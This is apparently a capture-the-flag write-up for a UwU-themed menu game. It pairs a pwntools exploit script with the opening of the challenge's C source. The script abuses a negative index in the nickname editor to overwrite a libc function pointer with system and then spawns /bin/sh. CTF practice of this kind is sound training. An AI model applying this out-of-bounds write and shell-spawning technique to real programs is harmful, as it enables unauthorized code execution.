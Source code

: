 ```py

system_addr = libc.sym['system'] # calculate the offset of system 
print(hex(system_addr)) # debugging 


# Going to overwrite fgets, overwrite is possible know by manual test 
p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')
p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")

p.sendline(b'-7')
p.recvuntil(b"  Please get a new name to ")
payload = b'A' * 8 + system_addr.to_bytes(6, 'little') # index 6 to access srand and write downwards (up acutally)
p.sendlineafter(b"What is its new nickname?", payload)




# pass /bin/sh into fgets!!, commented to pass in manually kk4
time.sleep(0.5)
p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')
time.sleep(0.5)
p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")

p.sendline(b'1')
time.sleep(0.5)
p.sendlineafter(b"What is its new nickname?", b'/bin/sh')


p.interactive()



#print(hex(libc.address))
#print(hex(libc.sym['rand']))
```

## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <stdbool.h>

const char UwU_NAME[6][16] = {"PiUwUchu" , "CharUwUder", "EvUwU", "UwUduck", "MagiUwU", "KING OF UwU"};
const char *Tips[6][2] = {
	{"--Tips of the day--", "  Do you know, if you try harder, you maybe able to solve the challenge!"},
	{"Today is a good day for hacking!", ""},
	{"--Tips of the day--", "  Do you know, the king of UwU is neither a boy nor girl!"},
	{"--Tips of the day--", "  Do you know, the author of this challenge is really nice!"},
	{"Remember don't wrench the authors!", "All authors are nice guy!"},
	{"--Tips of the day--", "  Do you know, the most dangerous place is the safest place!"}
};
char TEAM[6][16] = {"FirebUwU", "None", "None", "None", "None", "None"};
int TEAM_SIZE = 1;
int MAX_TEAM_SIZE = 6;
```